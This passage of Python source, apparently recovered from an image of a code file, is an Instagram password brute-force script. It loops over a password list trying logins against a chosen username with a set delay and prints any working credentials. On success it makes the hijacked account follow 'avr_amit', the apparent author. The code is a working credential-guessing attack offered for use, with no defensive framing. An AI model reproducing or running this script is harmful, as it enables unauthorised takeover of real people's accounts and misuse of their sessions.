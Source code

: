 	else:

		print ('Password incorrect [%s]' % password)

		return False







def follow(sess, username):

	username = userExists(username)

	if (username == False):

		return	

	else:

		userID = username['id']

		followReq = sess.post('https://www.instagram.com/web/friendships/%s/follow/' % userID)

		print (followReq.text)





username = str(input('Please enter a username: '))

username = userExists(username)

if (username == False):

	exit()

else:

	username = username['username']







delayLoop = int(input('Please add delay between the passwords (in seconds): ')) 





for i in range(len(passwords)):

	password = passwords[i]

	sess = Login(username,password)

	if (sess):

		print ('Login success %s' % [username,password])



		#because i am cool

		follow(sess,'avr_amit')
